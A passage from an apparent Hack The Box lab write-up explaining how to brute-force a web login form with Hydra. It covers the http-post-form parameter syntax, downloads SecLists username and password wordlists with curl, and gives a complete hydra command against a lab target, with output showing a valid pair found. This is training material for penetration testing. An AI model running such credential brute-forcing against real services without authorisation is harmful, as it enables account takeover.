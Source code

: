 - `Form Parameters`: These are the essential fields that hold the username and password. Hydra will dynamically replace placeholders (`^USER^` and`^PASS^`) within these parameters with values from your wordlists.
- `Additional Fields`: If the form includes other hidden fields or tokens (e.g., CSRF tokens), they must also be included in the`params` string. These can have static values or dynamic placeholders if their values change with each request.
- `Success Condition`: This defines the criteria Hydra will use to identify a successful login. It can be an HTTP status code (like`S=302` for a redirect) or the presence or absence of specific text in the server's response (e.g.,`F=Invalid credentials` or`S=Welcome`).

Let's apply this to our scenario. We've discovered:

- The form submits data to the root path (`/`).
- The username field is named`username`.
- The password field is named`password`.
- An error message "Invalid credentials" is displayed upon failed login.

Therefore, our`params` string would be:


```bash
/:username=^USER^&password=^PASS^:F=Invalid credentials
```

- `"/"`: The path where the form is submitted.
- `username=^USER^&password=^PASS^`: The form parameters with placeholders for Hydra.
- `F=Invalid credentials`: The failure condition â€“ Hydra will consider a login attempt unsuccessful if it sees this string in the response.

We will be using [top-usernames-shortlist.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt) for the username list, and [2023-200_most_used_passwords.txt](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt) for the password list.

This`params` string is incorporated into the Hydra command as follows. Hydra will systematically substitute`^USER^` and`^PASS^` with values from your wordlists, sending POST requests to the target and analyzing the responses for the specified failure condition. If a login attempt doesn't trigger the "Invalid credentials" message, Hydra will flag it as a potential success, revealing the valid credentials.


```shell-session
# Download wordlists if needed
smoothment@htb[/htb]$ curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt
smoothment@htb[/htb]$ curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
# Hydra command
smoothment@htb[/htb]$ hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-05 12:51:14
[DATA] max 16 tasks per 1 server, overall 16 tasks, 3400 login tries (l:17/p:200), ~213 tries per task
[DATA] attacking http-post-form://IP:PORT/:username=^USER^&password=^PASS^:F=Invalid credentials
[5000][http-post-form] host: IP login: ... password: ...
[STATUS] attack finished for IP (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-05 12:51:28
```
